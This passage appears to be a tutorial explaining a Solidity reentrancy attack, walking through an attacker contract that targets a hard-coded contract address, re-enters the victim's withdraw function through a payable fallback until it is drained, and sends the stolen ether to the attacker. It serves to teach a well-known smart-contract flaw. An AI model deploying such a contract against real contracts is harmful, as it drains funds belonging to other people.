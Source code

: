 ```javascript

}

```

let's break down each part of our malicious contract and know why it written in that way ¯\_(ツ)_/¯.

```javascript
    // point to our target contract 
    address target = 0x0a4a49363c93f5c05d51818837e0043c262105ec;
    Store  Victim = Store(target);
    
    //set contract's ownership to our badboy 
    constructor()  {
        attacker = msg.sender;
    }
```

we make our contract to point to the vulnerable contract and import all its functions as a interface to our malicious contract so it can visible to it and able to call each one this is popular way of make contract talk to another contract.

```javascript

    modifier onlybadBoy {
        require(
            msg.sender == attacker,
            "caller is not the hacker"
        );
        _;
    }

    // our hackable function that call withdraw function in the vulnerable contract
    function Hack(uint _amount) public  {
        Victim.withdraw(_amount);
    }
    // function to trasnfer all the money in our contract to our account with only badboy privilege
    function getMyMoney() public onlybadBoy {
        msg.sender.transfer(this.balance);
    }
    // fallback function that make our contract recieve ethers and call hack function once it get executed 
    function() public payable {
        Hack(1 ether);
    }

```

I assume that comments explains well what meant for each function of those , but I want to clear thing about the fallback role in this situation
from the previous that fallback function can be run when there is a  function invoked without funtion id signature known , but also can be exectued when the designated contract revecive plain ethers. so when our malicious contract withdraw `1 ether` and revcived it .it will make fallback function run again
which it their logic to withdraw another 1 ether and still that proccess run again over again until the victim contract got drained. then we make another function to transfer all the fund the exist in our bad contract and set modifier so can't let another badboy steal our money el haram and be a real badboys :D (⌐■-■)

